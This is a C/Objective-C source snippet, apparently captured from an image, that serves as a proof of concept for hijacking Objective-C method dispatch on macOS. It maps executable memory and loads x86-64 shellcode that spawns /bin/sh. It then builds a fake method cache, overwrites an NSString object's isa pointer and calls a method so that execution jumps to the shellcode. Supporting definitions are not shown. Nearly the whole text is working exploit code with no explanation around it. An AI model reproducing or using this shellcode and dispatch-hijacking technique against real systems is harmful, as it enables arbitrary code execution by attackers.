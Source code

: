 ```

char shellcode[] =
"\x41\xb0\x02\x49\xc1\xe0\x18\x49\x83\xc8\x17\x31\xff\x4c\x89\xc0"
"\x0f\x05\xeb\x12\x5f\x49\x83\xc0\x24\x4c\x89\xc0\x48\x31\xd2\x52"
"\x57\x48\x89\xe6\x0f\x05\xe8\xe9\xff\xff\xff\x2f\x62\x69\x6e\x2f"
"\x2f\x73\x68";

int main(int argc, const char * argv[])
{
    struct fakecache fc;
    char num[50];
    unsigned int slide;

    void *pshellcode = mmap(0, 0x33, PROT_EXEC | PROT_WRITE
                           | PROT_READ, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (pshellcode == MAP_FAILED) {
        printf("[+] shellcode mmap failed\n");
        exit(1);
    }
    memcpy(pshellcode, shellcode, sizeof(shellcode));
    printf("[+] Setting up shellcode\n");

    struct cacheentry *buckets = malloc((NUMBUCKETS+1) * sizeof(struct cacheentry));
    if(!buckets) {
        printf("[!] allocation failed.\n");
        exit(1);
    }
    for(slide = 0; slide <= NUMBUCKETS ; slide++) {
        buckets[slide].sel = BASESEL + (slide * 0x1000);
        buckets[slide].rip = (long)pshellcode;
    }
    printf("[+] Setting up buckets\n");

    NSString *l = [[NSString alloc] initWithUTF8String:"hello world"];


    memset(&fc,'\xcc',sizeof(fc));
    fc.mask = MASK; // mask
    fc.bucketptr = (unsigned long)buckets;
    printf("[+] Setting up fc\n");

    printf("[+] fc @ 0x%lx\n",(unsigned long)&fc);
    printf("[+] Class @ 0x%lx\n",(unsigned long)l);
    printf("[+] Buckets @ 0x%lx\n",(unsigned long)buckets);
    printf("[+] String length: 0x%x\n",(unsigned int)[l length]);

    sprintf(num,"%li",(long)l);
    long *ptr = (long *)atol(num);
    *ptr = (long)&fc; // isa ptr
    printf("[+] Overwriting object\n");

    printf("[+] Calling method\n");
    printf("String length: 0x%x\n",(unsigned int)[l length]);
    return 0;
}

```
